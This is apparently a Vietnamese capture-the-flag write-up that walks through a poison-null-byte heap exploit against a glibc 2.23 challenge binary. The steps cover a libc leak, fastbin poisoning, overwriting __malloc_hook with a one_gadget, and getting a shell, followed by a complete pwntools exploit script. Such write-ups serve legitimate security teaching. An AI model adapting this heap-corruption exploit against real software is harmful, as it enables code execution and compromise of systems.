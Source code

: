 # Heap_Exploit - Heap4

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn5_null_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=9f1740b42bc97cb470a75e9386d7fb64867795d3, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Vì ở hàm deleteHeap() set giá trị null cho con trỏ đến heap 

-> Không thể Use-after-free, double-free.

![delete.png](images/delete.png)

Tiếp đến chạy thử chương trình:

![run.png](images/run.png)

Ở đây chúng ta có 5 options sử dụng heap, mà tên file là `pwn5_null` 

-> `Poison_Null_Byte`

# 2. Khai thác

- Bước 1: Tạo 4 chunk 

```
create(0,0x88,b"\x00")              #CHUNK0 dùng để overflow size chunk1
create(1,0x208,b"\x00")             #CHUNK1 chunk này có size có giá trị > 0xff để owverflow null byte vào byte cuối
create(2,0x88,b"\x00")              #CHUNK2 chunk ở đây là overlapping memory
create(3,0x12,b"\x00")              #CHUNK3 tránh chunk2 bị gộp với top_chunk khi ta giải phóng nó.
```

- Bước 2: Giải phóng chunk_1 và tạo thành 2 chunk bé bên trong chunk 1 để kiểm soát con trỏ trong unsortedbin

```
free(1)
edit(0,0x88,p8(0)*0x88)
```

Sau khi free(1) và overflow chunk_0 thì chunk_1 của chúng ta sẽ như sau:

![chunk1.png](images/chunk1.png)

Có thể thấy size chunk_1 đã bị biến đổi từ `0x211` -> `0x200`

Kế đến tạo 2 chunk với chunk size = `0x100`

```
create(1,0xf8,b"\x00"*8)#CHUNK1a
create(4,0xf8,b"\x00"*8)#CHUNK1b
```

![2chunk.png](images/2chunk.png)

Ok nhưng nhìn vào chunk_2 khi đó:

![chunk2.png](images/chunk2.png)

Size chunk_2 = 0x90 mà khi đó chunk_4 vừa tạo đã được sử dụng. 

Tiếp theo, ta free chunk_1 và chunk_2

```
free(1)
free(2)
```

Nhìn vào heap khi ấy:

![chunk.png](images/chunk.png)

Nếu chúng ta giải phóng chunk_1 và sau đó giải phóng chunk_2, malloc sẽ bị nhầm lẫn rằng chunk_4 không được sử dụng và nó sẽ kết hợp chunk_1 với chunk_2, trong đó có cả chunk_4.

Tuy nhiên, chunk_4 chưa được free() nên chúng ta có thể kiểm soát được nó. Đó là lý do vì sao chunk_1 có size = `0x2a1` là tổng của size chunk_1 = `0x210` và chunk_2 = `0x90`

Kế đến, tạo 1 chunk với size sao cho giảm giá trị của unsortedbin đi 0x100 và từ đó đẩy địa chỉ `main_arena+88` xuống chunk_4'data để leak được địa chỉ libc

```
create(1,0xf8,b"a"*0xf7)#CHUNK1a
show(4)
p.recvuntil(b"Data = ")
leak=int.from_bytes(p.recv(6),"little")
libc=leak-0x39bb78
print("Libc_base: ",hex(libc))
malloc_hook=libc+0x39bb10
print("Malloc_hook: ",hex(malloc_hook))
one_gadget=libc+0x3f42a
print("Og_hook: ",hex(one_gadget))
```

- Bước 3: Ghi đè one_gadget vào địa chỉ malloc_hook

Ở trước đó ta đã có size chunk_2 = `0x90` có nghĩa chunk trước không được sử dụng

=> lợi dụng điều này để ghi vào chunk_4

```
create(5,0x68,b"b"*0x67)
free(5)
```

Khi này ta sẽ có địa chỉ chunk_5 trong fast_bin

Và tại fastbin lúc này sẽ chỉ đến phần data của chunk_4 nên ta chỉ việc edit(4): 

```
edit(4,0x68,p64(malloc_hook-35))
```

![fastbin.png](images/fastbin.png)

Và thế là ta đã có 1 chuỗi dslk tại fastbin size `0x70` 

Tiếp đến chúng ta tạo 1 chunk rác và 1 chunk để sửa `malloc_hook-0x23`

```
create(5,0x68,b"\x00")
create(6,0x68,b"a"*19+p64(one_gadget))
```

Vì sao phải sử dụng `malloc_hook-35`?

Bời vì khi chúng ta đến bước tạo chunk_6, nó yêu cầu địa chỉ đầu trong fastbin khi ấy phải là 1 chunk hợp lệ có size là 0x7x 

![fake.png](images/fake.png)

Và chúng ta sẽ ghi đề b"a"*19 để phần còn lại ghi vào `malloc_hook`.

Oke vậy là `malloc_hook` đã chứa địa chỉ của `one_gadget`.

Kế đến chúng ta free  1 chunk để dẫn đến lỗi

```
free(4)
free(6)
```

Chunk_4 chứa địa chỉ `malloc_hook-0x23` và khi free nó đi rồi thì sẽ mất địa chỉ lưu trữ `b"a"*19+p64(one_gadget)` của chunk_6

=> khi free(6) sẽ bị lỗi và lấy được shell

![shell.png](images/shell.png)

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn5_null_patched', checksec=False)

p = process("./pwn5_null_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(idx,size,data):
    p.sendafter(b">\n",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input size:",str(size))
    p.sendafter(b"Input data:",data)

def show(idx):
    p.sendafter(b">\n",b"2")
    p.sendafter(b"Index:",str(idx))

def edit(index,newsize,data):
    p.sendafter(b">\n",b"3")
    p.sendafter(b"Input index:",str(index))
    p.sendlineafter(b"Input newsize:",str(newsize))
    p.sendlineafter(b"Do you want to change data (y/n)?\n",b"y")
    p.sendlineafter(b"Input data:",data)

def free(idx):
    p.sendafter(b">\n",b"4")
    p.sendafter(b"Input index:",str(idx))
  
    
create(0,0x88,b"\x00")
create(1,0x208,b"\x00")
create(2,0x88,b"\x00")
create(3,0x12,b"\x00")

free(1)
edit(0,0x88,p8(0)*0x88)
create(1,0xf8,b"\x00"*8)
create(4,0xf8,b"\x00"*8)
free(1)
free(2)

create(1,0xf8,b"a"*0xf7)
show(4)
p.recvuntil(b"Data = ")
leak=int.from_bytes(p.recv(6),"little")
libc=leak-0x39bb78
print("Libc_base: ",hex(libc))
malloc_hook=libc+0x39bb10
print("Malloc_hook: ",hex(malloc_hook-35))
one_gadget=libc+0x3f42a
print("Og_hook: ",hex(one_gadget))

create(5,0x68,b"b"*0x67)
free(5)
edit(4,0x68,p64(malloc_hook-35))
create(5,0x68,b"B")
create(6,0x68,b"B"*19+p64(one_gadget))
free(4)
free(6)

p.interactive()
```


